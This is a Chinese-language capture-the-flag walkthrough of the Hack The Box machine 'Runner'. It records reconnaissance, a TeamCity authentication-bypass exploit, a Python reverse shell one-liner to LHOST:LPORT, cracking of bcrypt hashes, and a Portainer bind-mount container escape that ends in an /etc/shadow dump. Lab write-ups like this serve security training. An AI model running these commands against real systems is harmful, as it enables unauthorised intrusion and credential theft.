










Runner

1. Nmap Scan
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://runner.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
8000/tcp open nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
扫到了 22、80、8000，UDP 未扫到端口。
2. HTTP - 8000
feroxbuster -u http://runner.htb:8000/ -d 1
___ ___ __ __ __ __ __ ___
|__ |__ |__) |__) | / ` / \ \_/ | | \ |__
| |___ | \ | \ | \__, \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓 ver: 2.10.2
───────────────────────────┬──────────────────────
🎯 Target Url │ http://runner.htb:8000/
🚀 Threads │ 50
📖 Wordlist │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
👌 Status Codes │ All Status Codes!
💥 Timeout (secs) │ 7
🦡 User-Agent │ feroxbuster/2.10.2
💉 Config File │ /etc/feroxbuster/ferox-config.toml
🔎 Extract Links │ true
🏁 HTTP methods │ [GET]
🔃 Recursion Depth │ 1
───────────────────────────┴──────────────────────
🏁 Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200 GET 1l 1w 3c http://runner.htb:8000/health
200 GET 1l 1w 9c http://runner.htb:8000/version
先看非常规端口，扫描目录未发现有趣的东西。
$ curl http://runner.htb:8000/health
OK
$ curl http://runner.htb:8000/version
0.0.0-src
3. HTTP - 80 - runner.htb
没有发现什么功能点。
4. Subdomain Fuzz
cewl http://runner.htb/ -w subdomain.dict
ffuf -w subdomain.dict -u "http://runner.htb/" -H 'Host: FUZZ.runner.htb' -fc 302
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://runner.htb/
:: Wordlist : FUZZ: /home/kali/Desktop/HackTheBox/Runner/hosts.txt
:: Header : Host: FUZZ.runner.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response status: 302
________________________________________________
TeamCity [Status: 401, Size: 66, Words: 8, Lines: 2, Duration: 196ms]
:: Progress: [285/285] :: Job [1/1] :: 222 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
由于 seclists 的 subdomains-top1million-110000.txt 字典扫描不到结果，转而尝试抓取 web 页面的单词，得到新的子域名。
5. HTTP - 80 - teamcity.runner.htb

发现一个 Jetbrains 的 TeamCity Version 2023.05.3 (build 129390)
搜索漏洞发现 CVE-2024-27198 & CVE-2024-27199 认证绕过 + RCE
python3 w01.py -t http://teamcity.runner.htb/
_____ ____ _ _ ____ ____ _____ |_ _|__ __ _ _ __ ___ / ___(_) |_ _ _ | _ \ / ___| ____|
| |/ _ \/ _` | '_ ` _ \| | | | __| | | | | |_) | | | _|
| | __/ (_| | | | | | | |___| | |_| |_| | | _ <| |___| |___
|_|\___|\__,_|_| |_| |_|\____|_|\__|\__, | |_| \_\\____|_____|
|___/
Author: @W01fh4cker
Github: https://github.com/W01fh4cker
[+] User added successfully, username: 4n88ltpb, password: q7fYliAJsN, user ID: 17
[+] The target operating system version is linux
[+] Please start executing commands freely! Type <quit> to end command execution
command > whoami
tcuser
command > python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
exp 注册了一个新用户 4n88ltpb/q7fYliAJsN，反弹 shell 发现是一个 docker 容器。
$ ls -la /
drwxr-xr-x 1 root root 4096 Feb 28 19:05 .
drwxr-xr-x 1 root root 4096 Feb 28 19:05 ..
lrwxrwxrwx 1 root root 7 Aug 1 2023 bin -> usr/bin
drwxr-xr-x 2 root root 4096 Apr 15 2020 boot
drwxr-xr-x 3 root root 4096 Aug 24 2023 data
drwxr-xr-x 5 root root 340 Apr 21 11:22 dev
-rwxr-xr-x 1 root root 0 Feb 28 19:05 .dockerenv
drwxr-xr-x 1 root root 4096 Feb 28 19:05 etc
drwxr-xr-x 2 root root 4096 Apr 15 2020 home
lrwxrwxrwx 1 root root 7 Aug 1 2023 lib -> usr/lib
lrwxrwxrwx 1 root root 9 Aug 1 2023 lib32 -> usr/lib32
lrwxrwxrwx 1 root root 9 Aug 1 2023 lib64 -> usr/lib64
lrwxrwxrwx 1 root root 10 Aug 1 2023 libx32 -> usr/libx32
drwxr-xr-x 2 root root 4096 Aug 1 2023 media
drwxr-xr-x 2 root root 4096 Aug 1 2023 mnt
drwxr-xr-x 1 root root 4096 Aug 24 2023 opt
dr-xr-xr-x 296 root root 0 Apr 21 11:22 proc
drwx------ 2 root root 4096 Aug 1 2023 root
drwxr-xr-x 1 root root 4096 Aug 24 2023 run
-rwxr-xr-x 1 root root 1103 Aug 24 2023 run-server.sh
-rwxr-xr-x 1 root root 286 Aug 24 2023 run-services.sh
lrwxrwxrwx 1 root root 8 Aug 1 2023 sbin -> usr/sbin
drwxr-xr-x 1 tcuser tcuser 4096 Aug 24 2023 services
drwxr-xr-x 2 root root 4096 Aug 1 2023 srv
dr-xr-xr-x 13 root root 0 Apr 21 11:22 sys
drwxrwxrwt 1 root root 4096 Apr 21 14:28 tmp
drwxr-xr-x 1 root root 4096 Aug 24 2023 usr
drwxr-xr-x 1 root root 4096 Aug 1 2023 var
-rwxr-xr-x 1 root root 280 Aug 24 2023 welcome.sh
搜索敏感文件，发现 id_rsa
$ find / -name 'id_rsa' 2>/dev/null
/data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys/id_rsa
但是缺少用户名，返回 TeamCity 的 Web 界面，尝试登录查找用户名

发现 John、Matthew 用户和一个有趣的备份功能，有可能包含数据库文件，因此尝试备份。

$ sudo cat database_dump/users
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1713699786309, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
11, h454nsec4600, $2a$07$NlT58YZSMGvj3uAxf0S46OCx3KStvv8wi7hoUZW/V8jE4COJvie96, , "", 1713699802457, BCRYPT
解压后发现用户 Hash，使用 hashcat 爆破得到 matthew 的密码为 piper123
6. User - John
使用密码登录 matthew 失败，使用密钥登录 john 成功
$ ss -lntp | awk '{print $4}'
Local
127.0.0.1:9000
127.0.0.1:5005
127.0.0.1:8111
0.0.0.0:80
0.0.0.0:22
127.0.0.53%lo:53
127.0.0.1:9443
*:8000
[::]:80
[::]:22
$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 runner runner.htb teamcity.runner.htb portainer-administration.runner.htb
信息收集发现本地还有其他端口，查看 hosts 发现其他子域名。
7. HTTP - 80 - portainer-administration.runner.htb

发现 portainer.io，Matthew 用户可以成功登录，拿到了容器权限后，首先考虑到挂在主机的 / 目录，然后 chroot 逃逸

由于选项中不能直接挂在主机目录，因此需要添加额外的 driver options
https://stackoverflow.com/questions/39496564/docker-volume-custom-mount-point
在 docker compose 文件中发现以下片段
...
volumes:
bind-test:
driver: local
driver_opts:
type: none
o: bind
device: /home/user/test
...

查看本地镜像文件

创建一个 Ubuntu 容器，并挂载刚刚创建的卷

进入容器控制台，选择 root 用户，chroot /pwn bash 成功逃逸

8. Dump Hash
# cat /etc/shadow
root:$y$j9T$ANKO0Lgp1HOfm5nPIRoTX.$S4tkxOzaYLCUAy8deQR/4sayinxeXoQb.nGRDMGUa30:19788:0:99999:7:::
daemon:*:19405:0:99999:7:::
bin:*:19405:0:99999:7:::
sys:*:19405:0:99999:7:::
sync:*:19405:0:99999:7:::
games:*:19405:0:99999:7:::
man:*:19405:0:99999:7:::
lp:*:19405:0:99999:7:::
mail:*:19405:0:99999:7:::
news:*:19405:0:99999:7:::
uucp:*:19405:0:99999:7:::
proxy:*:19405:0:99999:7:::
www-data:*:19405:0:99999:7:::
backup:*:19405:0:99999:7:::
list:*:19405:0:99999:7:::
irc:*:19405:0:99999:7:::
gnats:*:19405:0:99999:7:::
nobody:*:19405:0:99999:7:::
_apt:*:19405:0:99999:7:::
systemd-network:*:19405:0:99999:7:::
systemd-resolve:*:19405:0:99999:7:::
messagebus:*:19405:0:99999:7:::
systemd-timesync:*:19405:0:99999:7:::
pollinate:*:19405:0:99999:7:::
sshd:*:19405:0:99999:7:::
syslog:*:19405:0:99999:7:::
uuidd:*:19405:0:99999:7:::
tcpdump:*:19405:0:99999:7:::
tss:*:19405:0:99999:7:::
landscape:*:19405:0:99999:7:::
fwupd-refresh:*:19405:0:99999:7:::
usbmux:*:19474:0:99999:7:::
lxd:!:19474::::::
matthew:$y$j9T$VcVx4oj6/0sr8ldYLVrdx1$xNznv.vvbyLEM8S6/YKAfPHP6hoYg3oD1MWRNovVlx/:19781:0:99999:7:::
john:$y$j9T$rpK6N7DunMYlKLZJcOzCY1$lcPx9lbvGZBnn7ip/qQDho2NCF/UsOmYc1P2Ve/y6F2:19781:0:99999:7:::
_laurel:!:19817::::::